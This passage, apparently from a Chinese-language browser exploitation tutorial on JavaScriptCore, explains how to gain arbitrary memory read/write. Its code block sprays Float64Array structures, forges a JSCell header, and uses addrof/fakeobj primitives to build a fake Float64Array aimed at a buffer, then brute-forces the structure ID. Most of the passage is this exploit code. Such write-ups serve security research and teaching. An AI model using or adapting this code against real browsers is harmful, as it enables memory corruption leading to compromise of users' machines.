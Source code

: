 这样，我们就可以将第二个数组的数据指针设置为任意地址，为我们提供任意的内存读写。

下面是使用我们以前的exploit原语创建一个假的Float64Array实例的代码。然后用附加的攻击代码创建一个全局的“内存”对象，提供方便的方法来读取和写入任意内存区域。

```c
sprayFloat64ArrayStructures();

    // 创建要使用的数组

    // 读写目标内存地址

    var hax = new Uint8Array(0x1000);

    var jsCellHeader = new Int64([

        00, 0x10, 00, 00,       // m_structureID, current guess

        0x0,                    // m_indexingType

        0x27,                   // m_type, Float64Array

        0x18,                   // m_flags, OverridesGetOwnPropertySlot |

            // InterceptsGetOwnPropertySlotByIndexEvenWhenLengthIsNotZero

        0x1                     // m_cellState, NewWhite

    ]);

    var container = {

        jsCellHeader: jsCellHeader.encodeAsJSVal(),

        butterfly: false,       // Some arbitrary value

        vector: hax,

        lengthAndFlags: (new Int64('0x0001000000000010')).asJSValue()

    };

    // Create the fake Float64Array.

    var address = Add(addrof(container), 16);

    var fakearray = fakeobj(address);

    // Find the correct structure ID.

    while (!(fakearray instanceof Float64Array)) {

        jsCellHeader.assignAdd(jsCellHeader, Int64.One);

        container.jsCellHeader = jsCellHeader.encodeAsJSVal();

    }

    // 完成伪造，伪造的数组现在指向hax数组 

```
